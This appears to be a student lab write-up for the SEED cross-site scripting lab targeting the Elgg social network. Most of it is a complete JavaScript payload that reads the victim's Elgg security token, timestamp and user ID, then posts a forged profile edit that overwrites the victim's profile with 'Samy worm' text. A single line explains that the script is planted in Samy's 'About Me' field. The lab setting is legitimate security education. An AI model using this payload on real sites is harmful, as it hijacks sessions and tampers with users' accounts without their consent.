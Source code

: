 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
<script type="text/javascript">
    window.onload = function() {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.name;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/profile/edit";
        var myID = 59; // User ID of Samy

        // If the user is Samy, then the attack is not performed
        if (guid == myID) return;

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', userName);
        formData.append('description', '1905001');
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);

        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}

In both the cases, we place the malicious script in Samy's ``About Me'' section's ``Edit HTML'' format like the previous task.
\end{document}
